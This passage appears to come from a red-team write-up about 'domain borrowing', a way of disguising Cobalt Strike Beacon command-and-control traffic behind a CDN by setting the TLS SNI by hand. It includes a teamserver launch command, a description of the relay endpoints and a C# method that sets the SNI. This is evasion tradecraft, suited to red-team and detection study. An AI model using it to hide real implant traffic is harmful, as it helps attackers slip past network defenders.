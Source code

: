 At first I tried to use Cobalt Strike's [Malleable C2 profile](https://www.cobaltstrike.com/help-malleable-c2). Malleable C2 allows you to completely customize and control what your Beacon's HTTP traffic looks like. A single profile can be specified for use at startup of the Teamserver.

```
./teamserver [external IP] [password] [/path/to/my.profile]
```

Malleable C2 controls things like HTTP methods, encryption and compression routines, cookies, headers, jitter, user agents and more. Unfortunately as of right now it doesn't let you control the **SNI** field :(

Back to the drawing board I went.

Shortly after, I ended up watching [Rasta Mouse](https://twitter.com/_RastaMouse) stream some Covenant development on [Twitch](https://www.twitch.tv/rastam0us3). He was working on a [Bridge](https://github.com/cobbr/Covenant/wiki/C2Bridges) to implement communication between Covenants Teamserver and Implant (Grunt) over DNS. That reminded me of Cobalt Strike's [External C2 spec](https://www.cobaltstrike.com/help-externalc2) which I briefly touched on when I looked at [F-Secure's C3](https://github.com/FSecureLABS/C3). I also remembered [Ryan Hanson](https://twitter.com/ryhanson) wrote a [C# implementation](https://github.com/ryhanson/ExternalC2) of the External C2 spec, which was used by the [DNS over HTTPS](https://github.com/SpiderLabs/DoHC2) project I previously looked at.

I ended up combining Ryan's External C2 library with the Covenant PoC and rewrote parts of it to be compatible with .NET Core 3.1 and change the way the server handles requests from the CDN. The result is [DomainBorrowingC2](https://github.com/Cerbersec/DomainBorrowingC2).

### 6. ServerC2

ServerC2 is a basic ASP.NET Core application which acts as a listener for ClientC2 via endpoints. ServerC2 is responsible for relaying traffic coming from ClientC2 via the CDN to Cobalt Strike's Teamserver via the ExternalC2 Socket. I modified the controllers to separate traffic meant for fetching the stager to use the `/stager` endpoint and traffic that originates from Beacon and is meant for the Teamserver to use `/beacon`. I also had to change the HTTP method PUT to POST because the CDN provider did not handle that correctly.

### 7. ClientC2

ClientC2 is a .NET Core 3.1 Console application. This is mostly a thinned out version of Ryan's ExternalC2, but with a custom HttpsClient provided by the Covenant PoC and a custom implementation of the WebChannel, now called DomainBorrowingChannel (original I know).

The HttpsClient's `initSsl()` method holds the secret to domain borrowing, namely setting the **SNI** manually.

```csharp
private SslStream initSsl()
{
    X509Certificate2 ourCA = new X509Certificate2();
    RemoteCertificateValidationCallback callback = (sender, cert, chain, errors) =>
    {
        bool valid = true;
        if (valid && ValidateCert)
        {
            valid = errors == SslPolicyErrors.None;
        }
        return valid;
    };
    try
    {
        TcpClient client = new TcpClient(ip, port);
        SslStream sslStream = new SslStream(client.GetStream(), false, callback, null);
        // we pass SNI as first parameter to AuthenticateAsClient()
        sslStream.AuthenticateAsClient(sni, null, SslProtocols.Tls | (SslProtocols)768 | (SslProtocols)3072 | (SslProtocols)12288, true);
        return sslStream;
    }
    catch (Exception e)
```